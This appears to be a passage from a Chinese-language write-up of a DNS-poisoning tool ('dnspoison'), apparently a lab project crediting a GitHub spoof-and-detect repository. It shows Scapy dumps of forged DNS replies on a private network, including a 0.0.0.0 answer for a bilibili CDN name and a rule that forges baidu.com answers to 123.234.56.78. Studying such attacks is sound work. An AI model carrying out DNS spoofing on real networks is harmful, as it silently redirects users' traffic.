 ```
     chksum    = None
     src       = 192.168.6.131
     dst       = 192.168.6.2
     \options   \
###[ UDP ]### 
        sport     = 43768
        dport     = domain
        len       = None
        chksum    = None
###[ DNS ]### 
           id        = 1599
           qr        = 1
           opcode    = QUERY
           aa        = 1
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 1
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'data.bilibili.com.w.cdngslb.com.'
            |  qtype     = AAAA
            |  qclass    = IN
           \an        \
            |###[ DNS Resource Record ]### 
            |  rrname    = 'data.bilibili.com.w.cdngslb.com.'
            |  type      = A
            |  rclass    = IN
            |  ttl       = 10
            |  rdlen     = None
            |  rdata     = 0.0.0.0
           ns        = None
           ar        = None
```

+ 向后缀为baidu.com的域名发出的请求，dnspoison会伪造rdata为123.234.56.78的数据包。

```
==========TARGET OCCUR==========
.
Sent 1 packets.
###[ Ethernet ]### 
  dst       = 00:0c:29:2c:e1:85
  src       = 00:50:56:fc:2c:03
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = None
     src       = 192.168.6.2
```

[^1]: [SnehaPathrose/DNSSpoofAndDetect·github](https://github.com/SnehaPathrose/DNSSpoofAndDetect/tree/master)
